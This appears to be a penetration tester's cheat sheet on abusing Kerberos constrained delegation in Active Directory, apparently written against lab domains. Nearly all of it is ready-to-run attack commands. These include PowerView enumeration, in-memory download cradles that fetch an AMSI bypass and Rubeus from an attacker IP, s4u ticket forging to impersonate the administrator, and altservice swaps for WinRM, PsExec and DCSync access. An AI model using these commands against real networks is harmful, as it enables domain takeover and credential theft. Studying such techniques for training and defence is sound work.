     - Enumerate w/ PowerView:
        - Get-DomainUser -TrustedToAuth
            - note samaccountname, msds-allowedtodelegateto, useraccountcontrol
            - ex. If IISSVC acct can delegate to MSSQLSvc
                - frontend svc: if we compromise the IISSvc account, we can request a service ticket to IIS for any user in the domain, including a domain administrator
                - backend svc: we can then request a service ticket for the services listed in the msds-allowedtodelegateto field as any user in the domain. Depending on the type of service, this may lead to code execution.
        - Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto,useraccountcontrol
        - Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

    - Exploitation:
        - *Run Rubeus from memory:
            - powershell
            - (new-object system.net.webclient).downloadstring('http://192.168.45.210/amsi.txt') | IEX
            - $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.210/Rubeus.exe')
            - $assem = [System.Reflection.Assembly]::Load($data)
            - ex. [Rubeus.Program]::Main("s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt".Split())
            - klist
        - 0a. Executing in context of frontend service:
            - ##Get TGT:  .\Rubeus.exe tgtdeleg
        - 0b. Executing out of service context:
            - Generate hash (if we only have plaintext pw):  
                - .\Rubeus.exe hash /password:lab
            - Request TGT (for the account that is TrustedToAuth):
                - .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
        - Exploit (pick user to impersonate and get authenticated to the delegated service):
            - ex. .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt
            - ex. Rubeus.exe s4u /ticket:doIFCDCCB......= /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /dc:dc01.offense.local /ptt
            - Confirm logged in as tgt user (using ticket in memory):   klist; .\SQL.exe
        - Follow-on Exploit:
            - modifying the ticket to get access to a different service on the same host
            - Doesn't work if original service includes port - ex. mssqlsvc/cdc01.prod.corp1.com:1433
                - would work if like:  www/cdc01.prod.corp1.com
            - ex. .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /altservice:CIFS /ptt     
            - Shell Option 1 - switch for /altservice:http and get winrm shell:
                Enter-PSSession -ComputerName cdc01.prod.corp1.com
            - Shell Option 2 - switch for /altservice:host and get psexec shell:
                .\PsExec64.exe \\cdc01.prod.corp1.com cmd.exe
            - Shell Option 3 - switch for /altservice:cifs and use SharpSCExec.exe
            - Requesting LDAP Access for DCSync:
                .\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
        
    - Exploitation if you're SYSTEM on a box that is TrustedToAuth:
        - [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
        - $idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
        - $idToImpersonate.Impersonate()
        - [System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
